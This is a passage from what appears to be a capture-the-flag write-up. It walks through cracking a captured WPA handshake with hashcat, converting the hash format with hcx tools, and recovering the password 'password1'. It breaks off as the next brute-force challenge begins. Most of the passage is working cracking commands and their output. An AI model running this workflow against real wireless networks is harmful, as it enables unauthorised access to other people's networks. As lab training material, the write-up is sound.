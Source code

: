 I can try to decrypt with `hashcat`:

```shell
sudo hashcat -a 0 -m 2500 wifi-offices.hccapx rockyou-top100000.txt 
hashcat (v5.1.0) starting...

* Device #1: Not a native Intel OpenCL runtime. Expect massive speed loss.
             You can use --force to override, but do not report related errors.
No devices found/left.

Started: Thu Jan 25 08:52:32 2024
Stopped: Thu Jan 25 08:52:32 2024
```

But it didn't work, I have to convert the hash from 2500 to 22000:

```shell
sudo hcxhash2cap --hccapx=wifi-offices.hccapx -c wifi-offices.pcap
sudo hcxpcapngtool wifi-office.pcap -o hash.22000
```

Now I able to crack password with hashcat:

```shell
sudo hashcat -a 0 -m 22000 hash.22000 rockyou-top100000.txt --force
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c06b7d24d662f61e6d9efc09c301227c:020000000100:b499ba6ff945:wifi-offices:password1
cc762fab136057e540a38ff4b035777b:020000000100:78c1a7bf7246:wifi-offices:password1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.22000
...
```

**Flag :**  `password1`

## **13. What is the wifi-management password?**

**Challenge Description :**  What is the wifi-management password? Use Brute force to get the AP password.

### Approach

Manage `wifi-management` informations:
